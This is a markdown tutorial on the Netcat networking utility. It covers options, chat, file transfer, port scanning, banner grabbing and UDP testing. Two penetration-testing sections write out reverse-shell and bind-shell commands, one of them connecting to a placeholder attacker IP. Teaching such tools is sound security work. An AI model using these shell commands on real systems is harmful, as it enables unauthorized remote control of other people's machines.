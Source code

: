 
# 🔹 Netcat (`nc`) – The Swiss Army Knife of Networking

## **Description**
Netcat (`nc`) is a versatile command-line utility for **reading from and writing to network connections** using TCP or UDP.  
It is widely used for:  
- Port scanning  
- File transfers  
- Port forwarding  
- Chat servers  
- Reverse/bind shells  
- Network debugging  
- Quick testing of network services  

Because of its flexibility, Netcat is often called the **“Swiss Army Knife” of networking**.

---

## **Basic Syntax**
```bash
nc [options] [hostname] [port]
````

---

## **Common Options and Their Uses**

| Option | Description                                                       |
| ------ | ----------------------------------------------------------------- |
| `-n`   | Skip DNS resolution (faster connections using IPs only)           |
| `-v`   | Verbose mode (prints connection information)                      |
| `-vv`  | Extra verbose (more debugging details)                            |
| `-l`   | Listen mode (act as a server)                                     |
| `-p`   | Specify local port (for listening)                                |
| `-u`   | Use UDP instead of TCP                                            |
| `-k`   | Keep listening after a client disconnects (persistent server)     |
| `-z`   | Zero-I/O mode (for scanning only, no data sent)                   |
| `-w`   | Connection timeout in seconds (e.g., `-w 5`)                      |
| `-e`   | Execute a command after connection (e.g., `/bin/bash` for shells) |

---

## **Advanced Examples with Explanation**

### **1. Basic Chat Server**

* **Server (Listener)**

```bash
nc -nlvp 5544
```

Explanation:

* `-n`: Avoid DNS lookups

* `-l`: Listen for incoming connections

* `-v`: Verbose output

* `-p 5544`: Listen on port 5544

* **Client (Sender)**

```bash
nc -nv [SERVER_IP] 5544
```

* Connects to server and enables live text communication.

---

### **2. File Transfer**

* **Sender (Server)**

```bash
nc -nlvp 5544 > received_file.txt
```

* Listens for connection and writes incoming data to `received_file.txt`.

* **Receiver (Client)**

```bash
nc -nv [SERVER_IP] 5544 < file_to_send.txt
```

* Sends the contents of `file_to_send.txt` to the server.

---

### **3. Port Scanning**

```bash
nc -zv [TARGET_IP] 20-30
```

* `-z`: Zero-I/O (scan only, do not send data)
* `-v`: Verbose mode (prints open/closed ports)
* `20-30`: Range of ports to scan

**Use case**: Quickly identify listening services without full-featured Nmap.

---

### **4. Reverse Shell (Penetration Testing)**

* **Attacker (Listener)**

```bash
nc -nlvp 5544
```

* Waits for incoming connections from target.

* **Victim (Connects back)**

```bash
nc -nv [ATTACKER_IP] 5544 -e /bin/bash
```

* Opens a shell back to attacker machine.
* **Explanation of `-e`**: Executes `/bin/bash` and forwards input/output through Netcat.

---

### **5. Bind Shell (Penetration Testing)**

* **Victim (Listener)**

```bash
nc -nlvp 5544 -e /bin/bash
```

* Opens a shell bound to port 5544 on the victim.

* **Attacker (Connects)**

```bash
nc -nv [VICTIM_IP] 5544
```

* Gains direct shell access to victim machine.

---

### **6. UDP Communication**

```bash
nc -u -nv [TARGET_IP] 5544
```

* `-u`: Uses UDP protocol instead of TCP.
* Useful for testing UDP services like DNS, SNMP, or custom applications.

---

### **7. Persistent Listener**

```bash
nc -klvp 5555
```

* `-k`: Keeps listening after a client disconnects.
* Useful for long-term services like chat servers or persistent shells.

---

### **8. Quick Banner Grab / Service Test**

```bash
nc -nv [TARGET_IP] 80
```

* Connects to a web server and allows manual HTTP requests.
* Example:

```
GET / HTTP/1.1
Host: [TARGET_IP]
```

* Useful for service debugging and enumeration.

---

## **Security Considerations**

* Netcat can be used for both legitimate network testing and malicious activities.
* Always **have authorization** when connecting to remote systems.
* For encrypted or secure communication, use `ncat` (from Nmap) or `socat`.
* Avoid exposing `-e` options on public networks; it can create high-risk backdoors.

---

## **Conclusion**

Netcat is an essential tool for network administrators, penetration testers, and security researchers.
By mastering its options and use cases, you can:

* Debug network services
* Transfer files easily
* Conduct penetration testing with reverse/bind shells
* Quickly scan ports and test connectivity

**Tip**: Combine Netcat with other tools like `proxychains`, `nmap`, and `socat` for advanced networking and security testing workflows.
